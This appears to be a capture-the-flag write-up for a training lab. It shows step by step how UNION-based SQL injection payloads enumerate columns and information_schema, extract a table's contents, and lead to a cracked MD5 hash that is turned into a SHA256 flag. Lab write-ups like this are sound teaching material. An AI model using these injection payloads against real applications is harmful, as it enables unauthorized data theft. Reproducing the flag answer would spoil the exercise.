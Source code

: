# SQL Injection to Retrieve and Decode a Flag

## Step 1: Determine the Number of Columns
We tested the application with a SQL injection payload to find out how many columns the query returned:

1 OR 1=1 UNION SELECT NULL, NULL--


## Step 2: Identify Columns in the `list_images` Table
Next, we wanted to know the column names in the target database table `list_images`. We used:

1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns


## Step 3: Extract All Images Data
With the column names known, we combined them to see the data stored in the table:

1 AND 1=2 UNION SELECT id, CONCAT(url, title, comment) FROM list_images


Result (example):

borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46


## Step 4: Decoding the Flag
The message instructed to decode the hash using the following steps:

1. **MD5 Decrypt:** 

md5_decrypt('1928e8083cf461a51303633093573c46') => albatroz


2. **Convert to Lowercase:**  

lower('albatroz') => albatroz


3. **SHA256 Hash:**  

sha256('albatroz') => f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

## Explanation
This attack used SQL injection to discover table structure, extract sensitive data, and then followed the provided instructions to decode a hash and obtain the flag.